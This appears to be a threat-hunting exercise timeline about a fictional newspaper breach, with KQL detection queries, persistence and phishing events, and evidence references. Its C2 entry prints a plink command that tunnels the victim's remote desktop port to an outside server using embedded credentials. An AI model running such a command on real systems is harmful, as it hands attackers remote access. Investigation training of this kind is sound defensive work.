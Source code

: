 ## 1/5/2024, 11:22:44 AM — Persistence Established
**Trigger:** Scheduled task created to run script hourly  
**Detection Query:** 
```
ProcessEvents
| where process_commandline contains "hacktivist_manifesto.ps1"
| where hostname == "UL0M-MACHINE"
```
**Observed:** Task created with ExecutionPolicy Bypass  
**Evidence:** E-004 – Scheduled task created

## 1/5/2024, 11:55:22 AM — Credential Discovery
**Trigger:** PowerShell script executed  
**Observed:** Command included SSH credentials; Script contained SSH username "$had0w" and password "thruthW!llS3tUfree"
**Evidence:** E-003 – hacktivist_manifesto.ps1

## 1/6/2024, 2:39:35 AM — C2 Connection Established
**Trigger:**  Remote connection initiated
**Detection Query:** 
```
ProcessEvents
| where process_commandline contains "plink.exe"
| where hostname == "UL0M-MACHINE"
```
**Observed:** plink.exe used to connect to C2 server at 136.130.190.181  
**Interpretation (analysis):** process_commandline == "plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 136.130.190.181"
**Evidence** E-003, E-005

--- 
New information was provided: *Another suspicious email  address  `valdorias_best_recruiter@gmail.com` was seen sending emails to intern Ronnie and a few others.*

## 1/10/2024, 8:48:16 AM — Second Wave Begins
**Trigger:** Intern Ronnie got email from suspicious email `valdorias_best_recruiter@gmail.com`
**DEeection Query:**
```
Email
| where sender == "valdorias_best_recruiter@gmail.com" and recipient == "ronnie_mclovin@valdoriantimes.news"
```
**Evidence:** E-006 – Suspicious email

## 1/10/2024, 8:55:07 AM — Ronnie Clicks Link
**Trigger:** Ronnie clicks a link on email
**Detection Query:**
```
let ronnies_ip =
Employees
| where name == "Ronnie McLovin"
| distinct ip_addr;

OutboundNetworkEvents
| where src_ip in (ronnies_ip)
| where url contains "promotionrecruit.org"
```
**Observed:** Link led to download of Editorial_J0b_Openings_2024.docx  
**Evidence:** E-006
